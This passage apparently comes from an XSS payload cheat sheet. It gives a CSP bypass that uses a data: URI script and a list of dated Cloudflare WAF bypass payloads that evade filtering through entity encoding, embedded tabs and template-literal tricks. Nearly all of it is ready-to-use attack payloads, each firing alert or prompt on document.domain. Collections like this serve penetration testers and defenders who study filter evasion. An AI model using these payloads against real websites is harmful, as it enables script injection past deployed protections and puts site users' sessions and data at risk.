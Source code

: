 Works for CSP like `script-src 'self' data:` as warned about in the official [mozilla documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src).

```javascript
<script src="data:,alert(1)">/</script>
```


## Common WAF Bypass

### Cloudflare XSS Bypasses by [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

#### 25st January 2021

```html
<svg/onrandom=random onload=confirm(1)>
<video onnull=null onmouseover=confirm(1)>
```

#### 21st April 2020

```html
<svg/OnLoad="`${prompt``}`">
```

#### 22nd August 2019

```html
<svg/onload=%26nbsp;alert`bohdan`+
```

#### 5th June 2019

```html
1'"><img/src/onerror=.1|alert``>
```

#### 3rd June 2019

```html
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
```

### Cloudflare XSS Bypass - 22nd March 2019 (by @RakeshMane10)

```
<svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
```

### Cloudflare XSS Bypass - 27th February 2018

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```
